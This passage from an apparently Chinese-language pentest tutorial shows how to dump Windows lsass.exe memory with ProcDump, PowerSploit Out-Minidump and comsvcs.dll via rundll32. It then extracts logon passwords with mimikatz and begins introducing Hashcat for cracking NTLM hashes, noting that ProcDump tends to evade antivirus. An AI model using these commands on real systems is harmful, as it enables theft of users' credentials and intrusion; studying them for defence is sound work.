![image-20230202174536572](https://img.gyxnb.top/img/image-20230202174536572.png)

### 2、使用procdump 导出lsass.dmp文件

ProcDump 是一个命令行实用工具，其主要用途是在管理员或开发人员可用于确定峰值原因的峰值期间监视 CPU 峰值和生成故障转储的应用程序。 ProcDump 还包括使用窗口挂起 (使用相同的窗口挂起定义，Windows任务管 理器使用) 、未经处理的异常监视，并且可以根据系统性能计数器的值生成转储。 它还可用作可在其他脚本中嵌入 的常规进程转储实用工具。因为是微软的所以一般不会被杀软杀掉

```
procdump.exe ‐accepteula ‐ma lsass.exe lsass.dmp
```

![image-20230202174610054](https://img.gyxnb.top/img/image-20230202174610054.png)

### 3、使用PowerSploit 的Out-MiniDump模块

PowerSploit是一个基于 Powershell 的渗透工具包，可以选择创建 进程的完整内存转储。

地址 https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1

```
import-Module .\Out-Minidump.ps1    (powershell-improt .\Out-Minidump.ps1)
Get-Process lsass | Out-Minidump
```

![image-20230202174630386](https://img.gyxnb.top/img/image-20230202174630386.png)

### 4、comsvcs.dll，系统自带。

通过comsvcs.dll的导出函数MiniDump实现dump内存

首先查看lsass.exe进程PID: `tasklist | findstr lsass.exe` 

使用powershell导出 `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 488 C:\lsass.dmp full`

![image-20230202174658233](https://img.gyxnb.top/img/image-20230202174658233.png)

## 读取lsass.dmp文件

使用mimikatz读取lsass.dmp文件

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"
```

![image-20230202174749633](https://img.gyxnb.top/img/image-20230202174749633.png)

https://blog.csdn.net/weixin_42136837/article/details/112616369

# 使用Hashcat和在线工具破解NTLM Hash

## Hashcat介绍

Hashcat是一个密码恢复工具。直到2015年，它都有一个专有的代码库，但随后作为开源软件发布。版本适用于 Linux、OS X 和 Windows。哈希卡支持的哈希算法的示例包括 LM 哈希、MD4、MD5、SHA 系列和 Unix Crypt 格式，以及 MySQL 和 Cisco PIX 中使用的算法。 
